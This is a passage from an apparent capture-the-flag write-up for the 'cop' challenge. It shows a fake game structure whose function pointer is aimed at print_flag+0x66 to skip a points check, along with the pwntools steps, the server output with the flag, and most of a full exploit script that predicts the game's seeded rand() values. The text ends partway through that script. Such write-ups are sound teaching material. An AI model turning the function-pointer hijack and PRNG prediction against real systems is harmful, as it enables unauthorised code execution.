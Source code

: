 Over here, the fake `play` structure has `animation_function` set to `print_flag+0x66`. The `+0x66` is there to bypass the `POINTS_TO_PRINT_FLAG` check in `print_flag()`.

With `->current_play` and `->player_name` in check, we only need to call `current_play->animation_function` to win.

```c
        // if ascii art enabled, call function ptr
        if(game_ctx->ascii_art_enabled)
        {
            current_play.animation_function(current_play.handsign, handsig_input);
        }
```

To get to this part of the code, we only need to

```python
choose(4) # enable ascii art
choose(2) # start the next round
r.recvuntil('[ ]\b\b')
r.sendline('1') # pick any option
print(r.recvall()) # get flag
```

```python
[+] Opening connection to cop.ichsa.ctf.today on port 8011: Done
[+] Receiving all data: Done (151B)
[*] Closed connection to cop.ichsa.ctf.today port 8011
b'| Computer chosed: 1\n| You chosed: 1\n| It is a tie\n| Point goes to: no one\n| The flag is:ICHSA_CTF{exploitation_with_cop_is_why_better_than_any_crime}\n'
```

## Full script

```python
from pwn import *
context.binary = 'game'
from ctypes import CDLL
clib = CDLL('libc.so.6')
clib.srand(0)
ARRAY_OF_PLAYS_MAXSIZE = 170
array_of_plays = [clib.rand()%3 for _ in range(ARRAY_OF_PLAYS_MAXSIZE)]
current_play = 0

r = remote('cop.ichsa.ctf.today', 8011)
def choose(opt: int):
    r.recvuntil('[ ]\b\b')
    r.sendline(str(opt))
def win_round():
    global current_play
    choose(2)
    r.recvuntil('[ ]\b\b')
    cpu_play = array_of_plays[current_play]
    current_play += 1
    user_play = {0:1, 1:2, 2:0}[cpu_play]+1
    r.sendline(str(user_play))
def skip(n: int):
    choose(3)
    r.recvuntil('[  ]\b\b\b')
    r.sendline(str(n))
for i in range(5): win_round()

OFFSET_TO_NAME = 0xd018
SIZEOF_PLAY = 24
while current_play < OFFSET_TO_NAME//SIZEOF_PLAY:
    toskip = min([255, (OFFSET_TO_NAME-current_play*SIZEOF_PLAY)//SIZEOF_PLAY+1])
    current_play += toskip
```
